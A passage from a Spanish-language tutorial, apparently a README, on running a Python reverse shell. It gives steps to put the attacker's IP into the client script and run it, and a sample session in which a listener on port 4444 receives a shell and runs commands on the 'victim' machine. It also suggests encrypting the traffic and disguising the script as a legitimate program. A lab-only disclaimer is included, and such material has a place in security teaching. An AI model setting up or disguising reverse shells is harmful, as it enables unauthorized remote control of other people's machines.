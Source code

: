    - Guarda `reverse_shell_client.py`
   - Modifica `host` en el script con la IP del atacante.
   - Ejecuta:

     ```bash
     python3 reverse_shell_client.py
     ```

📌 **Importante:** Asegúrate de que no haya firewalls bloqueando el puerto 4444.

---

### 🎬 Ejemplo de ejecución

#### 1. En la máquina atacante:

```bash
$ python3 listener_server.py
[+] Escuchando en el puerto 4444...
[+] Conexión desde ('192.168.1.15', 52766)
Shell> whoami
victima
Shell> uname -a
Linux ubuntu 5.15.0-91-generic ...
```

#### 2. En la máquina víctima:

```bash
# No muestra nada, queda en espera mientras el atacante controla
```

---

### ⚠️ Seguridad y Legalidad

- **Nunca ejecutes esto en redes públicas o sin permiso.**
- Solo en laboratorios controlados y para propósitos de aprendizaje.
- ¡No lo uses contra sistemas que no te pertenecen!

---

### 🚀 Nivel avanzado (opcional)

Puedes mejorar esto:

- Enviar resultados en chunks grandes (usando bucle `recv()`).
- Encriptar la comunicación (con `ssl`).
- Usar `threading` para múltiples clientes.
- Camuflar el script como programa legítimo (para estudios de malware).

---

[🔼](#índice)

---
